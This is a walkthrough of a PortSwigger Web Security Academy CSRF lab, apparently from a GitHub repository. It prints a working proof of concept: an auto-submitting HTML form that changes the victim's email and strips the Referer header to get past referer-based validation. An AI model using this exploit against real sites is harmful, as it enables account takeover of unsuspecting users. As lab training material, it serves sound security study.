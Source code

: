 ## Welcome, my friend. Today we will start the [11. CSRF lab](https://portswigger.net/web-security/learning-paths/csrf/csrf-validation-of-referer-depends-on-header-being-present/csrf/bypassing-referer-based-defenses/lab-referer-validation-depends-on-header-being-present#) in ```portswigger```

### Let's play this lab:

![image](https://github.com/user-attachments/assets/c0a9a6fa-ab3f-4a4b-8e4a-0f896bda6507)

#### First, we navigate inside the browser

![image](https://github.com/user-attachments/assets/99660634-7727-4c7f-8071-ebe4c37f9432)

#### We can log in to our account using the following credentials: ```wiener:peter```

![image](https://github.com/user-attachments/assets/f23f1607-2834-4634-98ed-cdc944f14bea)

#### Let's update email to ```0xT0R@gmail.com```:

![image](https://github.com/user-attachments/assets/5dda1c4b-12ff-4376-8e49-ed3a18ffe529)

#### We need do this task but through our victim by CSRF, we should intercept this request of update email by burp suite.

![image](https://github.com/user-attachments/assets/3d79151f-ae40-4bb3-b24c-1f7cb98259fb)

#### Ok, we notice exist ```referrer``` header and send request:

![image](https://github.com/user-attachments/assets/8da9b85b-914d-49f3-b4b5-13adf0e437c4)



### Let's generate csrf PoC but add this tag for prevent exist ```referrer``` header in new request:

```
<meta name="referrer" content="no-referrer">
```

### this csrf PoC:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
	<head>
		<meta name="referrer" content="no-referrer">
	</head>
  <body>
    <form action="https://0a0600b503ee418188f670b5007100de.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

![image](https://github.com/user-attachments/assets/4c85db03-9a78-4694-add5-90e320c078a5)





-------

### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/3b87014d-172f-4875-a516-6a7ec771f44f" >
</p>
